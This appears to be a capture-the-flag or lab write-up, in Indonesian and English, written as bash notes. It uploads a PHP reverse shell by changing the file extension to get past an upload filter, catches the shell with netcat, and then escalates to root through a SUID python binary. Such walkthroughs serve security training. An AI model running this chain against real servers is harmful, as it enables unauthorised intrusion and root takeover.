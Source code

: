 ## exploit
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php

ip a # check the interface tun0
vi php-reverse-shell.php
: 'ubah bagian ini'
# $ip = '10.21.78.122';  // CHANGE THIS
# $port = 9001;       // CHANGE THIS

: 'upload the file to /panel'
# seharusnya akan gagal

cp php-reverse-shell.php sh.php2; cp php-reverse-shell.php sh.php3; cp php-reverse-shell.php sh.php5
# lalu coba bypass dengan mengubah extensionya sepertti php3, php5, dll dan lakukan upload seharusnya berhasil

: 'listen'
nc -lvnp 9001
```

## post exploit
```bash
: 'upgrade tty'
python -c 'import pty; pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo; fg
export TERM=xterm

: 'suid'
find / -type f -user root -perm -4000 2>/dev/null
# /usr/lib/dbus-1.0/dbus-daemon-launch-helper
# /usr/lib/snapd/snap-confine
# /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
# /usr/lib/eject/dmcrypt-get-device
# /usr/lib/openssh/ssh-keysign
# /usr/lib/policykit-1/polkit-agent-helper-1
# /usr/bin/traceroute6.iputils
# /usr/bin/newuidmap
# /usr/bin/newgidmap
# /usr/bin/chsh
# /usr/bin/python
# /usr/bin/chfn
# /usr/bin/gpasswd
# /usr/bin/sudo
# /usr/bin/newgrp
# /usr/bin/passwd
# /usr/bin/pkexec

: 'Jika Menemukan SUID atau Sudoers yang Rentan, langkah selanjutnya adalah mencari eksploitasi yang relevan dengan menggunakan GTFOBins.'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```